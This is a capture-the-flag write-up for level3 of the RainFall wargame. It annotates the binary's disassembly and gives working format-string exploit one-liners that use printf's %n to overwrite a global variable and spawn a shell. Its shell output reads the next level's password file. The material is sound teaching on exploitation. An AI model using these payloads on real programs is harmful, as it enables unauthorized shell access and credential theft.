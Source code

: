 #### notes
```
 804988c  m : global variable m
 80484a4  v : function : called in main
 804851a  main : function 
 8048526  main return address
 8048519  main return address
```

##### 0x080484a4 : v() : disassembly
initiate the stack frame of the [v] funciton
```
80484a4 <+0>:	push   ebp
80484a5 <+1>:	mov    ebp,esp
80484a7 <+3>:	sub    esp,0x218
```
Preparation of gets() params
put the ___stdin___ value in ___esp+0x8___
put the ___0x200___ value in ___esp+0x4___
put the ___ebp-0x208___ address in ___esp___ // the buffer
call gets(eax, esp+4, esp+8)

```
80484ad <+9>:	mov    eax,ds:0x8049860
80484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
80484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
80484be <+26>:	lea    eax,[ebp-0x208]
80484c4 <+32>:	mov    DWORD PTR [esp],eax
80484c7 <+35>:	call   0x80483a0 <fgets@plt>
```
print the buffer : ___printf(buffer)___
```
80484cc <+40>:	lea    eax,[ebp-0x208]
80484d2 <+46>:	mov    DWORD PTR [esp],eax
80484d5 <+49>:	call   0x8048390 <printf@plt>
```

compare variable ___m___ if equal to ___0x40 (64)___
```
80484da <+54>:	mov    eax,ds:0x804988c
80484df <+59>:	cmp    eax,0x40
80484e2 <+62>:	jne    0x8048518 <v+116>
```
if __true__ :

- call ___fwrite("Wait what?!", 1, 12, stdout)___
```
80484e4 <+64>:	mov    eax,ds:0x8049880 ---> stdout
80484e9 <+69>:	mov    edx,eax
80484eb <+71>:	mov    eax,0x8048600 ----> "Wait what?!\n"
80484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
80484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc ----> 12
80484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1 ----> 1
8048504 <+96>:	mov    DWORD PTR [esp],eax
8048507 <+99>:	call   0x80483b0 <fwrite@plt>
```
- call ___system("/bin/sh")___
```
804850c <+104>:	mov    DWORD PTR [esp],0x804860d ----> "/bin/sh"
8048513 <+111>:	call   0x80483c0 <system@plt>
```
if __false__ :
- leave the program
```
8048518 <+116>:	leave
8048519 <+117>:	ret
```
---
#### Solution :
---
- will use the __%n printf__
read about it : https://www.geeksforgeeks.org/g-fact-31/
and : https://stackoverflow.com/questions/44543540/index-specification-in-printf-format-specifier
1 - use normal characters to fill the 64 size of M 
```shell
(python -c 'print "\x08\x04\x98\x8c"[::-1] + "1337" * 15 + "%4$n"'; cat) | ./level3
                             4             +       60    = 64 into the address in the 4th index    
or
(python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 64 + "%4$n"'; cat) | ./level3
                             4             +       60    = 64 into the address in the 4th index 
```
output:
```shell
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "1337" * 15 + "%4$n"'; cat) | ./level3
�133713371337133713371337133713371337133713371337133713371337
Wait what?!
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
---
2 - use the ___%nd___ printf format  where n is number of spaces to prefix the d number with
`printf("[%10d]", 7)` --->  [&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1] --> length = 13 = `[`+`]`+`1`+`10 spaces`
```shell
level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60d" + "%4$n"'; cat) | ./level3
�                                                         512
Wait what?!
whoami
level4
pwd
/home/user/level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

```